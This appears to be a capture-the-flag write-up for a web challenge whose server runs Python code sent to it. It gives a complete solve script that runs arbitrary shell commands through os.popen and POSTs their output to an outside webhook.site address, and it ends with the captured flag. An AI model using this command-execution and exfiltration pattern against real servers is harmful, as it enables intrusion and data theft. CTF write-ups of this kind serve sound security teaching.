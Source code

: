 ```yaml
---
ai_date: '2025-04-27 05:18:20'
ai_summary: 'Easiest ever RCE: Unrestricted code execution via input payload'
ai_tags:
- rce
- cmd-exec
- python
created: 2024-07-19T16:06
points: 100
solves: 247
updated: 2024-07-21T18:39
---
```


We are sending code to the server... and the server is running it.

Easiest ever RCE?

## solve script

```python
import requests

while True:
    payload=f"""
from urllib.request import urlopen, Request
import os
httprequest = Request('	https://webhook.site/',data=os.popen('{input("$ ").strip()}').read().encode(),method='POST')
urlopen(httprequest)""".strip()
    requests.post("http://p2c.chal.imaginaryctf.org/", data={"code": payload})
    
# $ ls
# $ cat flag.txt
```

```flag
ictf{d1_color_picker_fr_2ce0dd3d}
```